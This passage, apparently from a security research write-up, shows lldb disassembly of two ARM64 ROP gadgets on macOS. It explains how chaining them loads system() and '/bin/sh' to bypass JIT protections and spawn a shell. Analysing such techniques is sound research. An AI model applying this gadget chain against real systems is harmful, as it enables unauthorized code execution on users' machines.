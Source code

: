 We then looked for gadgets that interact with x21, and found two key instruction sequences:

First Gadget: Modifying x0, x8, and x3, then branching to x3
This gadget enables us to control x0 (first function argument), x8 (load base), and x3 (function jump target) before executing a branch instruction (br x3):
```asm
(lldb) x/10i 0x10306c8dc
->  0x10306c8dc: ldr    x0, [x21, #0x10]  // Load value from x21 into x0
   0x10306c8e0: ldr    x8, [x0]          // Load x0’s base into x8
   0x10306c8e4: ldr    x3, [x8, #0x10]   // Load x3, which will be our jump target
   0x10306c8e8: mov    x1, x20
   0x10306c8ec: mov    x2, x22
   0x10306c8f0: ldp    x29, x30, [sp, #0x30]
   0x10306c8f4: ldp    x20, x19, [sp, #0x20]
   0x10306c8f8: ldp    x22, x21, [sp, #0x10]
   0x10306c8fc: add    sp, sp, #0x40
   0x10306c900: br     x3                // Jump to x3 (controlled)
```
Second Gadget: Modifying x1 and x0, then branching to x1
This gadget allows us to set up x1 (second function argument) and x0 (first function argument) before branching to x1, effectively calling a function:
```asm
(lldb) x/10i 0x103ec014
->  0x103ec014: ldr    x1, [x8, #0x18]  // Load x1
   0x103ec018: ldr    x0, [x0, #0x58]  // Load x0
   0x103ec01c: br     x1               // Branch to x1 (controlled function call)
```
By combining these two gadgets, we can load the system() function address into x1, prepare its argument ("/bin/sh") in x0, and execute the call, effectively launching a shell.

Using this ROP-based approach, we successfully bypassed JIT memory protections and achieved code execution on macOS as the below image:

![](d.png)
